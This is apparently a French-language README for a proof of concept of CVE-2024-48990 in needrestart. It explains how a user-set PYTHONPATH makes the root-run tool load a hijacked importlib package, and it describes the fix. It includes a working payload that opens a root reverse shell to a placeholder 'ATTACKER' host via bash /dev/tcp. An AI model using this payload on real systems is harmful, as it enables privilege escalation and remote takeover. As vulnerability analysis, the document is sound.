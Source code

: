 # CVE-2024-48990-PoC

### 🔍 L'ORIGINE DE LA FAILLE

#### 1️⃣ **Le Code Vulnérable dans needrestart**

La faille se trouve dans le fichier `perl/lib/NeedRestart/Interp/Python.pm`. Voici ce que fait needrestart :

```perl
# needrestart lit les variables d'environnement du processus Python
my %env = nr_parse_env($pid);  # Lit /proc/<pid>/environ

# Si PYTHONPATH existe, needrestart l'utilise directement !
$ENV{PYTHONPATH} = $env{PYTHONPATH} if(defined($env{PYTHONPATH}));

# Puis needrestart lance Python avec cette PYTHONPATH
my ($pyread, $pywrite) = nr_fork_pipe2($self->{debug}, $ptable->{exec}, '-');
print $pywrite "import sys\nprint(sys.path)\n";  # ← CODE EXÉCUTÉ
```

#### 2️⃣ **Pourquoi c'est dangereux ?**

**needrestart fait CONFIANCE AVEUGLE** aux variables d'environnement de l'utilisateur :

1. **needrestart tourne en root** (lancé par `sudo apt install...`)
2. Il scanne TOUS les processus Python actifs
3. Il lit leur `PYTHONPATH` depuis `/proc/<pid>/environ`
4. **Il copie cette PYTHONPATH dans son propre environnement**
5. Il exécute du code Python **en tant que root** avec cette PYTHONPATH modifiée

### 💥 LA CHAÎNE D'EXPLOITATION

#### Étape par étape :

```
┌─────────────────────────────────────┐
│ 1. Attaquant (utilisateur normal)   │
│    export PYTHONPATH=/tmp/evil      │
│    python3 loop.py  # tourne en     │
│                     # boucle infinie│
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│ 2. Admin fait une mise à jour       │
│    sudo apt install curl            │
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│ 3. apt lance needrestart (en ROOT)  │
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│ 4. needrestart scanne les processus │
│    - Trouve le processus Python     │
│    - Lit /proc/<pid>/environ        │
│    - Trouve PYTHONPATH=/tmp/evil    │
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│ 5. needrestart copie la PYTHONPATH  │
│    $ENV{PYTHONPATH} = "/tmp/evil"   │
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│ 6. needrestart exécute Python       │
│    avec la PYTHONPATH malveillante  │
│    "import sys" ← déclenche importlib│
└────────────┬────────────────────────┘
             │
             ▼
┌─────────────────────────────────────┐
│ 7. Python charge /tmp/evil/importlib│
│    __init__.py s'exécute EN ROOT!   │
│    → Reverse shell root obtenu! 🎉  │
└─────────────────────────────────────┘
```

### 🎯 L'ASTUCE CLÉE : importlib

**Pourquoi `importlib` ?**

```python
# needrestart exécute ce code :
import sys
print(sys.path)
```

* `sys` est un module **built-in** → on ne peut pas le hijacker
* **MAIS** l'instruction `import` elle-même utilise le module `importlib` !
* `importlib` est **chargé dynamiquement** → on peut le hijacker !

### 📂 Structure de l'exploit

```bash
/tmp/evil/
└── importlib/
    └── __init__.py   # ← S'exécute automatiquement au chargement !
```

Le fichier `__init__.py` contient :

```python
import os
# Ce code s'exécute EN ROOT quand needrestart fait "import sys"
os.system("bash -c 'bash -i >& /dev/tcp/ATTACKER/1337 0>&1'")
```

### 🔑 POURQUOI ÇA MARCHE ?

#### La faille réside dans ces 3 problèmes combinés :

1. **Confiance aveugle** : needrestart lit et utilise `PYTHONPATH` de l'utilisateur sans validation
2. **Élévation de contexte** : La `PYTHONPATH` de l'utilisateur devient la `PYTHONPATH` de root
3. **Exécution automatique** : Les fichiers `__init__.py` s'exécutent dès le chargement du module

### 🛡️ LE PATCH (version 3.8)

Le correctif est simple : **ne plus copier PYTHONPATH** !

```perl
# AVANT (vulnérable) :
$ENV{PYTHONPATH} = $env{PYTHONPATH} if(defined($env{PYTHONPATH}));

# APRÈS (corrigé) :
# Cette ligne est supprimée !
```

***

**En résumé** : La faille vient du fait que needrestart **fait confiance aux variables d'environnement des utilisateurs normaux et les utilise dans un contexte root**, permettant un détournement de bibliothèque Python.
